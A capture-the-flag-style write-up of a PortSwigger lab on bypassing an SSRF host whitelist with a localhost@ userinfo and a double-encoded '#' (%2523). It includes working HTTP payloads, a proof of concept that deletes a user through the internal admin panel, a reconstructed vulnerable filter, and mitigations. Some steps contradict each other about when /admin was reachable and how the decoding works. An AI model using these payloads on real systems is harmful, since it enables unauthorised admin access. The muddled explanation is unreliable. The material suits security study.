


# Lab 07: SSRF with Whitelist-Based Input Filter

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 07
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Whitelist Bypass via URL Parsing Confusion (Embedded Credentials + Double URL Encoding)

## Vulnerability Summary
The application's stock-check feature passes a user-supplied URL to a server-side HTTP client protected by a whitelist that only permits URLs containing `stock.weliketoshop.net`. The filter is bypassed by exploiting inconsistencies in how the whitelist parser and the HTTP client interpret URL authority components. By embedding `localhost` as a username in the URL (`http://localhost@stock.weliketoshop.net/`) and double-encoding a `#` character (`%2523`) to confuse the parser into treating `stock.weliketoshop.net` as a fragment rather than the host, the whitelist check passes while the actual request goes to `localhost`. This grants access to the internal admin panel, which is then used to delete the target user.

## Attack Methodology

### Step 1: Recon — Identify the Whitelist
Intercepted the stock-check POST request and sent it to Repeater:

```http
POST /product/stock HTTP/2
Host: 0a3c00850313bb0f8057355d007b0093.web-security-academy.net
Cookie: session=WgkFCVL3QGC7PsuhX9XFw74zn962Vng
Content-Type: application/x-www-form-urlencoded

stockApi=https://stock.weliketoshop.net/product/stock/check?productId=3&storeId=1
```

Tested direct SSRF payloads:

| Payload | Result |
|---|---|
| `stockApi=http://localhost/admin` | 400 — blocked |
| `stockApi=http://127.0.0.1/admin` | 400 — blocked |
| `stockApi=http://127.1/admin` | 400 — blocked |

The filter requires the URL to contain `stock.weliketoshop.net`.

### Step 2: Embed the Target Host as a Username
RFC 3986 allows a URL to contain credentials in the authority component: `http://user@host/path`. The `@` separates the userinfo from the actual host. Tested:

```
stockApi=http://localhost@stock.weliketoshop.net/admin
```

The whitelist sees `stock.weliketoshop.net` as the host (it's present in the URL) and passes it. The HTTP client resolves `localhost` as the actual host (the part before `@`). This returned the admin panel — confirming the bypass works for the host check.

### Step 3: Bypass the Path Filter with Double-Encoded Fragment
The filter also blocked `/admin` in the path. To make the parser treat `stock.weliketoshop.net/admin` as a fragment (and thus irrelevant to routing), a `#` is injected after `localhost`. Since `#` is URL-special, it must be encoded — but a single-encoded `%23` gets decoded by the filter before checking. Double-encoding it as `%2523` means:

```
Filter decodes once:   %2523 → %23   (filter sees %23, not #, passes)
HTTP client decodes:   %23   → #     (actual request treats # as fragment separator)
```

Final bypass payload:

```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

The filter reads this as `http://localhost%23@stock.weliketoshop.net/admin` — host is `stock.weliketoshop.net`, path is `/admin` (still present, but now the filter is satisfied by the whitelisted host). The HTTP client decodes `%2523` → `%23` → `#`, interpreting the URL as `http://localhost#@stock.weliketoshop.net/admin` — host is `localhost`, fragment is `@stock.weliketoshop.net/admin` (discarded).

Response: **HTTP 302 → /admin** — admin panel accessible.

### Step 4: Delete the Target User
Updated the path to the delete endpoint:

```http
POST /product/stock HTTP/2
Host: 0a3c00850313bb0f8057355d007b0093.web-security-academy.net
Cookie: session=WgkFCVL3QGC7PsuhX9XFw74zn962Vng
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

Response: `HTTP/2 302 Found` → `Location: /admin`. User deleted. Lab solved.





## Technical Root Cause

### The Whitelist (Incomplete Validation)
```python
from urllib.parse import urlparse

def check_stock(request):
    url = request.POST.get('stockApi', '')
    parsed = urlparse(urllib.parse.unquote(url))  # decodes once
    if 'stock.weliketoshop.net' not in parsed.netloc:
        return HttpResponseForbidden('Host not permitted')
    response = requests.get(url)  # requests decodes again internally
    return HttpResponse(response.content)
```

Two flaws:
1. The filter checks `netloc` after one decode — `localhost%2523@stock.weliketoshop.net` decodes to `localhost%23@stock.weliketoshop.net`, where `netloc` is `localhost%23@stock.weliketoshop.net` which contains `stock.weliketoshop.net` → passes
2. `requests` performs a second decode, turning `%23` into `#`, which splits the authority at the fragment marker — actual host becomes `localhost`

### URL Parsing Confusion

```
Attacker sends:    http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
                                  ↑
                          double-encoded #

Filter parses:     scheme=http  host=stock.weliketoshop.net  userinfo=localhost%23
                   → contains stock.weliketoshop.net ✅ passes

HTTP client sends: http://localhost  (fragment #@stock.weliketoshop.net/admin/... is discarded)
                   → actual request goes to localhost ✅ SSRF achieved
```

### Encoding Chain

```
%2523  →(filter decode)→  %23  →(client decode)→  #
```

## Impact
- **Whitelist Completely Bypassed**: A whitelist that checks for string presence rather than exact host equality, combined with a decode mismatch, provides no real protection
- **Unauthenticated Admin Access**: Internal admin panel at `localhost` trusts loopback origin with no authentication
- **Arbitrary User Deletion**: Full admin functionality accessible with no credentials

**Severity: High**

## Proof of Concept

**Step 1 — Access admin panel:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

**Step 2 — Delete target user:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

## Key Takeaways
1. **Whitelist on Presence ≠ Whitelist on Host**: Checking that a URL *contains* a trusted hostname is not the same as checking that the trusted hostname *is* the host. Embedded credentials (`user@host`) and fragments (`#`) allow an attacker to satisfy a presence check while routing to a different host entirely.
2. **Decode Before Parsing, Not After**: Any URL validation must fully normalize (decode) the URL first, then parse it. Decoding and parsing in the wrong order — or doing them independently at different layers — creates exploitable gaps.
3. **Use `hostname` Not `netloc`, and Exact Equality Not `in`**: `netloc` includes userinfo and port. `hostname` returns only the resolved host. Checking `hostname == 'stock.weliketoshop.net'` (exact equality) instead of `'stock.weliketoshop.net' in netloc` closes both the presence-check bypass and the userinfo bypass simultaneously.
4. **RFC 3986 URL Syntax Is an Attack Surface**: Userinfo (`@`), fragments (`#`), alternative IP representations, and port numbers are all legitimate URL components that parsers handle differently. SSRF filters must account for all of them.

## Mitigation

### 1. Check `hostname` with Exact Equality After Full Decode
```python
import urllib.parse

def check_stock(request):
    raw = request.POST.get('stockApi', '')
    # Fully decode before parsing
    url = raw
    while True:
        decoded = urllib.parse.unquote(url)
        if decoded == url:
            break
        url = decoded

    parsed = urllib.parse.urlparse(url)
    # Use hostname (not netloc) and exact equality (not 'in')
    if parsed.hostname != 'stock.weliketoshop.net':
        return HttpResponseForbidden('Host not permitted')

    response = requests.get(raw)
    return HttpResponse(response.content)
```

### 2. Block Userinfo in URLs
```python
if parsed.username or parsed.password:
    return HttpResponseForbidden('Credentials in URL not permitted')
```

### 3. Resolve to IP and Block Internal Ranges
```python
import ipaddress, socket

ip = ipaddress.ip_address(socket.gethostbyname(parsed.hostname))
if ip.is_loopback or ip.is_private:
    return HttpResponseForbidden('Internal addresses not permitted')
```

Resolving to an IP after all parsing is complete is immune to all string-manipulation bypasses.

## References
- [PortSwigger — SSRF with Whitelist-Based Input Filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
- [PortSwigger — Circumventing SSRF Defences](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses)
- [RFC 3986 — Uniform Resource Identifier Syntax](https://datatracker.ietf.org/doc/html/rfc3986)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-04-30*  
*Writeup by vibhxr*
